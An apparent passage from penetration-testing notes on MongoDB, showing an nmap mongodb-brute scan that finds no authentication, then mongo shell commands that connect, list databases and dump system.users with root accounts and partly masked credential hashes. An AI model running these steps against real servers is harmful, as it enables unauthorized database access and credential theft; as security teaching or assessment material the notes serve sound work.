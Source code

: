 ```
|       sizeOnDisk = 50331648
|       empty = false
|       name = config
|   totalSize = 38537265153
|_  totalSizeMb = 36752
```

#### Mongodb-BruteForce

```
nmap 10.169.xx.xx -p 27017 -sV --script mongodb-brute -n

Starting Nmap 7.01 (https://nmap.org) at 2016-03-26 02:28 IST
Nmap scan report for 122.169.xx.xx
Host is up (0.086s latency).
PORT      STATE SERVICE VERSION
27017/tcp open  mongodb MongoDB 2.6.9
|_mongodb-brute: No authentication needed
```

### Other

This database can be connected using

```
mongo 10.169.xx.xx
MongoDB shell version: 2.4.10
connecting to: 122.169.xx.xx/test
```

Show DBS can be used to see the current databases;

```
mongos > show dbs
admin        0.015625GB
config       0.046875GB
genprod      35.890625GB
test (empty)
```

Use command can be used select the database

```
mongos > use admin
switched to db admin
```

Show collections can be used to see the tables;

```
 mongos > show collections
 nxae
 system.indexes
 system.users
 system.version

db.foo.find()                list objects in collection foo

::

 db.system.users.find()
 { "_id" : "test.root", "user" : "root", "db" : "test", "credentials" : { "MONGODB-CR" : "d6zzzdb4538zzz339acd585fa9zzzzzz" }, "roles" : [  {  "role" : "dbOwner",  "db" : "test" } ] }
 { "_id" : "genprod.root", "user" : "root", "db" : "genprod", "credentials" : { "MONGODB-CR" : "d6zzzdb4538zzz339acd585fa9zzzzzz" }, "roles" : [  {  "role" : "dbOwner",  "db" : "genprod" } ] }
```

